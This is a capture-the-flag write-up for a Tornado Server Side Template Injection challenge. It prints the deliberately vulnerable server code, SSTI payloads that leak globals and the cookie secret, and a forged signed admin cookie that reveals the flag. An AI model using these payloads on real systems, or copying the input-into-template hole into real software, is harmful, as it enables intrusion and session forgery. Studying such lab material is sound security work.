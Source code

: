 # The Usual Suspects

Author: [SrishtiGohain](https:github.com/SrishtiGohain)

## Description

This is a simple Server Side Template Injection challenge.

## Requirements

- Python
- tornado

## Sources

```
You may think I walk with no 'name' because it can be changed whenever I want. I am a 'person' whose 'secret' can never be found. Can you find this 'person's 'secret'?
(I love you 8000.)
```

## Exploit

```python
#SOURCE CODE: server.py
import tornado.template
import tornado.ioloop
import tornado.web
import os, pwd, grp

def drop_privileges(uid_name='ctf', gid_name='ctf'):
    running_uid = pwd.getpwnam(uid_name).pw_uid
    running_gid = grp.getgrnam(gid_name).gr_gid

    os.setgroups([])

    os.setgid(running_gid)
    os.setuid(running_uid)

    old_umask = os.umask(0o077)


flag = open('rf.txt').read()
secret = open('cs.txt').read()

TEMPLATE = '''
<html>
 <head><title> 🐱‍👤Hello Hacker</title></head>
 <body style="background: #00FFFF;text-align:center;">
 <h1 style="font-size:5rem;"> 🐱‍👤 The Usual Suspects 🐱‍👤 </h1>
 <br />
 <h2 style="font-size:4rem;"> You Have Arrived! </h2>
 <br />
 <p style="font-size:2rem;"> 
 <p>Hey, wannaheap know how I rate some ice-cream flavours?</p>
 <form method="GET"  action='/'>
  <select id="icecream" name="icecream">
      <option value="{{!chocolate}}">chocolate</option>
      <option value="{{!vanilla}}">vanilla</option>
      <option value="{{!butterscotch}}">butterscotch</option>
  </select>
  <input type="submit"></input>
 </form>
 <p>FOO</p>
 </p>
 <br/> <br/>
 <p style="text-align:center; font-size:2rem;">
 Oh I heard you're looking for my secret. <br>
 <b>{{secret}}</b>
 </p>
 </body>
</html>
'''

class MainHandler(tornado.web.RequestHandler):
 
    def get(self):

        chocolate = "My fav!! 10/10, would eat again"
        vanilla = 'Vanilla is good too, but could be better, i give it a 7/10'
        butterscotch = 'Yuck, who even likes that. 1/10'
        
        template_data = TEMPLATE.replace("FOO",self.get_argument('icecream',''))
        t = tornado.template.Template(template_data)
        secret = "Unfortunately, you aren't worthy"
        if self.get_secure_cookie("admin")==b"true":
            secret = flag
        else:
            self.set_secure_cookie("admin", "false")
        self.write(t.generate(chocolate=chocolate,vanilla=vanilla, butterscotch=butterscotch, application=application, secret=secret))



application = tornado.web.Application([
    (r"/", MainHandler)
], debug=True, static_path=None, template_path=None, cookie_secret=secret)

if __name__ == '__main__':
    drop_privileges()
    application.listen(9999)
    print("Listening :)")
    tornado.ioloop.IOLoop.instance().start()
```
<br />

- The server script runs on `http://chall.csivit.com:30279/`. Input is taken as the "icecream" value. 
 
- A secure cookie is being set and compared to print a flag value. In tornado, signed cookies contain the encoded value of the cookie
  alongwith a timestamp and an HMAC signature. Such cookies are supported by the set_secure_cookie and get_secure_cookie methods which require a specific secret key: cookie_secret.

- Upon visiting `http://chall.csivit.com:30279/?icecream={{globals()}}`, you see something useful:

```
'application': <tornado.web.Application object at 0x7f2976579750>,
```

- You now know that the name of the variable `tornado.web.Application(...)` is `application`.

- Run the server script with the exploit payload `http://chall.csivit.com:30279/?icecream={{application.settings["cookie_secret"]}}` to get the cookie_secret value `MangoDB` displayed on the website.
  
- Replace the value of the secure cookie `admin` to the required comparison value `true` to obtain a signed cookie on the browser. Now, replace the signed cookie generated upon running the server script with the one obtained after the secure cookie value was set to `true`. This results in a cookie which looks like the following. Note `dHJ1ZQ==` is base64 for `true`.

```
"2|1:0|10:1594808471|5:admin|8:dHJ1ZQ==|5da7d1e446451e825e42001e7f07360e2e2e77c9c68b14fca1a517259712cdac"
```

- Upon reloading the server script, the text on the website would change from `Unfortunately, you aren't worthy` to the flag value:

```
csictf{h3r3_i_4m}
```


The flag is:
```
csictf{h3r3_i_4m}
```
